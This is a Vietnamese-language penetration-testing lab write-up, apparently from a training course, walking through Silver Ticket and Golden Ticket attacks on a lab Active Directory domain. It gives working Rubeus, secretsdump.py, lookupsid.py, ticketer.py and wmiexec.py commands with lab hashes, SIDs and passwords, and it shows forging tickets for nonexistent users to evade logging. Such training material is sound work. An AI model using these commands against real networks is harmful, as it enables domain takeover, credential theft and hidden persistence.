Khi bạn gõ lệnh dir, hệ thống file01 kiểm tra vé, thấy nó được mã hóa đúng bằng mật khẩu của nó (Mã băm RC4), nó liền tin bạn là một Admin hợp lệ. Mọi thư mục của ổ C$ đã hiện ra rõ ràng!

Bước 5: Cảnh giới tối cao - Đúc Vé với Người Dùng Ảo

Đóng giả bgreen thì dễ bị phát hiện nếu đội IT đang theo dõi anh ta. Tại sao ta không bịa ra một cái tên không hề tồn tại trên đời để lách qua hệ thống theo dõi?

Thực hành:

Dọn dẹp bộ nhớ RAM, xóa tấm vé cũ đi:

klist purge



Chạy lại lệnh đúc vé, nhưng lần này ta đổi /user:pwned (một tài khoản bịa đặt) và thêm /id:777 (Mã định danh tự chế). Đồng thời chuyển dịch vụ mục tiêu thành host:

```bash
C:\Tools\Rubeus.exe silver /service:host/file01.hiboxy.com /rc4:8d30821a6a7af1c64f2d3833568fdab6 /sid:S-1-5-21-1165364801-2165540956-2109386109 /ptt /user:pwned /id:777
```



Đọc log sự kiện bảo mật trên máy chủ từ xa để xem hệ thống ghi nhận ai vừa đăng nhập:

wevtutil /r:file01.hiboxy.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName']='pwned']" /f:text /c:1



Phân tích đơn giản: Thật điên rồ! Lệnh wevtutil đã lôi ra được log truy cập từ máy chủ. Trong dòng Account Name: pwned, hệ thống ngây thơ ghi nhận rằng một tài khoản ma mang tên pwned đã đăng nhập thành công. Điều này chứng tỏ: Với Silver Ticket, bạn không cần biết mật khẩu của bất kỳ ai, và có thể giả mạo mọi dấu vết. Hệ thống giám sát (SIEM/SOC) của công ty sẽ hoàn toàn bị mù hoặc bị đánh lừa bởi những thông tin do chính bạn tự viết ra!
**Tổng kết: Qua bài Lab này, bạn đã nắm được sức mạnh của Silver Ticket. Mặc dù nó chỉ cấp quyền trên một máy chủ (và một dịch vụ cụ thể) chứ không phải toàn bộ Domain (như Golden Ticket), nhưng nó mang lại khả năng tàng hình và duy trì đặc quyền (persistence) cực kỳ lén lút. Để phòng chống, các quản trị viên bắt buộc phải đổi mật khẩu (Mã băm) của các máy chủ định kỳ thường xuyên!**

## Lab 5.5: Golden Ticket

Hãy mở máy ảo Slingshot Linux của bạn lên. Bắt đầu bằng việc dọn dẹp môi trường cũ với lệnh sau để đảm bảo không bị lỗi:

```bash
rm -rf /home/sec560/.local/bin
```



## Mục tiêu của chúng ta:

Trích xuất mã băm (Kerberos keys) của tài khoản krbtgt.

Tự tạo một tấm Vé Vàng (Golden Ticket) bằng mã băm vừa trích xuất.

Dùng Vé Vàng để xâm nhập hệ thống mà không cần bất kỳ mật khẩu nào.

Bước 1: Đánh cắp Chìa khóa vàng (Mã băm của krbtgt)

Giả sử từ các bài lab trước, chúng ta đã chiếm được tài khoản có quyền Domain Admin là SVC_SQLService2 với mật khẩu ^Cakemaker. Chúng ta sẽ dùng tài khoản này để ra lệnh cho máy chủ Domain Controller giao nộp mã băm của tài khoản krbtgt.

Thực hành:

Chạy lệnh secretsdump.py của bộ công cụ Impacket nhắm vào Domain Controller (10.130.10.4), kết hợp với cờ -just-dc-user để chỉ rút đúng mã băm của krbtgt:

```bash
secretsdump.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10 -just-dc-user krbtgt
```



Phân tích đơn giản: Lệnh này sẽ trích xuất cả hàm băm RC4 (chính là NT hash) và hàm băm mã hóa AES của tài khoản krbtgt. Hãy copy và lưu lại chuỗi NT hash (nằm sau số hiệu UID của tài khoản) trên màn hình của bạn, vì mỗi môi trường lab sẽ sinh ra một mã băm khác nhau ngẫu nhiên.

Bước 2: Thu thập thông tin Mã định danh Domain (Domain SID)

Để in được một tấm vé giả hoàn hảo, bên cạnh mã băm, chúng ta cần biết chính xác Tên miền (Domain Name) và Mã định danh duy nhất của miền đó (Domain SID).

Thực hành:

Dùng công cụ lookupsid.py để quét Domain Controller và lấy mã SID:

```bash
lookupsid.py hiboxy.com/SVC_SQLService:Supercool7@10.130.10.10 520
```



Phân tích đơn giản: Lệnh này trả về kết quả Domain SID is: S-1-5-21-... nằm ở ngay những dòng đầu tiên. Hãy bôi đen và copy lại chuỗi SID này (dừng trước các mã RID lẻ như 500, 501).

Bước 3: Đúc "Vé Vàng" với ticketer.py

Nguyên liệu đã đủ: Tên miền, SID và Mã băm NT của krbtgt. Giờ chúng ta sẽ nhờ công cụ ticketer.py rèn cho ta một tấm vé cấp đặc quyền cao nhất: thân phận của Administrator.

Thực hành:

Chạy lệnh sau để tạo vé (Hãy thay thế <DOMAIN_SID> và <NT_HASH> bằng dữ liệu bạn vừa copy ở Bước 1 và 2):

```bash
ticketer.py -domain hiboxy.com -domain-sid S-1-5-21-1165364801-2165540956-2109386109 -nthash 8b721d95caf73176b4451406715c1c58 Administrator
```



Phân tích đơn giản: ticketer.py là một công cụ thuộc bộ Impacket. Nó nhận các nguyên liệu bạn cung cấp, tự động ký giả mạo bằng hàm băm RC4 (từ NT Hash), và tạo ra một file chứa vé mang tên Administrator.ccache lưu ngay trong thư mục hiện tại của bạn. Kể từ lúc này, bạn chính thức là Quản trị viên tối cao!

Bước 4: Sử dụng Vé Vàng để thâm nhập hệ thống

Vé đã in xong, giờ là lúc mang ra cổng soát vé. Chúng ta sẽ nạp tấm vé này vào bộ nhớ của Linux, sau đó dùng nó để truy cập vào máy chủ chia sẻ file (file01.hiboxy.com) mà không cần cung cấp bất kỳ mật khẩu nào.

Thực hành:

Nạp file vé vào biến môi trường hệ thống để các công cụ khác nhận diện được:

```bash
export KRB5CCNAME=Administrator.ccache
```



Dùng công cụ wmiexec.py kết nối vào máy file01. Cờ -k yêu cầu sử dụng xác thực Kerberos (chính là vé vàng ta vừa nạp) và -no-pass báo rằng ta không cần dùng mật khẩu:

```bash
wmiexec.py -k -no-pass -dc-ip 10.130.10.10 file01.hiboxy.com hostname
```



(Lưu ý: Trước đó nhớ set ip ứng với địa chỉ hots )

```bash
sudo nano /etc/hosts
```

10.130.10.45    file01.hiboxy.com file01



Phân tích đơn giản: Thay vì quy trình hỏi mật khẩu thông thường, wmiexec.py tự động trình tấm Administrator.ccache cho hệ thống. Hệ thống kiểm tra thấy chữ ký của krbtgt hợp lệ (bởi vì ta có hash thật), liền mở cửa và trả về tên máy file01. Cửa hậu của bạn đã hoạt động hoàn hảo!

Bước 5: Thách thức giới hạn (Tạo Vé cho người dùng ảo)

Với sức mạnh của mã băm krbtgt, bạn thậm chí không cần phải giả danh một tài khoản có thật như Administrator. Bạn có thể tự bịa ra một tài khoản hoàn toàn ảo (ví dụ: pwned) và cấp quyền cho nó! Điều này khiến đội ngũ bảo mật cực kỳ khó dò vết.

Thực hành:

Tạo một tấm Vé Vàng mới mang tên một tài khoản không hề tồn tại pwned:

```bash
ticketer.py -domain hiboxy.com -domain-sid S-1-5-21-1165364801-2165540956-2109386109 -nthash 8b721d95caf73176b4451406715c1c58 pwned
```



Phân tích đơn giản: Bạn sẽ thu được file pwned.ccache. Khi mang tấm vé này đi xác thực, trên các máy chủ Windows đời cũ, nó sẽ cấp quyền thành công. Lưu ý quan trọng: Đối với các máy chủ Windows Server 2019 đã được vá lỗi bảo mật (như trong môi trường lab này), hệ thống đã khôn ngoan hơn: Nó sẽ kiểm tra chéo xem tài khoản có thực sự tồn tại trong danh bạ (Active Directory) hay không trước khi mở cửa. Vì vậy, lệnh này có thể báo lỗi, nhưng đây vẫn là một kiến thức quý giá khi bạn đối đầu với các hệ thống chưa cập nhật!



**Tổng kết: Thật tuyệt vời! Bằng việc đánh cắp thành công hàm băm mã hóa của tài khoản krbtgt, bạn đã hoàn toàn bẻ gãy hệ thống niềm tin (Trust) của mạng lưới Active Directory. Với Golden Ticket, dù người quản trị có đổi mật khẩu của tất cả các tài khoản Admin khác, bạn vẫn luôn có đường quay lại. Hệ thống mạng của mục tiêu giờ đây nằm trọn trong tay bạn!**